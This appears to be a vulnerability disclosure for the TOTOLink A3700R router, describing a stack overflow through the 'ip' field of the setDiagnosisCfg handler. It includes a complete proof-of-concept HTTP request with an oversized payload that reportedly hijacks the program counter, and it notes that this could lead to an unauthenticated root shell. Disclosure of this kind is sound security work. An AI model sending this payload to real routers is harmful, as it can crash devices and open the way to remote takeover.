



# TOTOLink A3700R V9.1.2u.6134_B20201202 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：



## Vulnerability details



`Var` is formatted into `V6` through sprintf function, and Var is the value of `ip` we enter. The size of the format string is not limited, resulting in stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 560
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"topicurl": "setting/setDiagnosisCfg","ip": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"}
```



 The above figure shows the POC attack effect 


As shown in the figure above, we can hijack PC registers.


Finally, you can write exp to get a stable root shell without authorization.
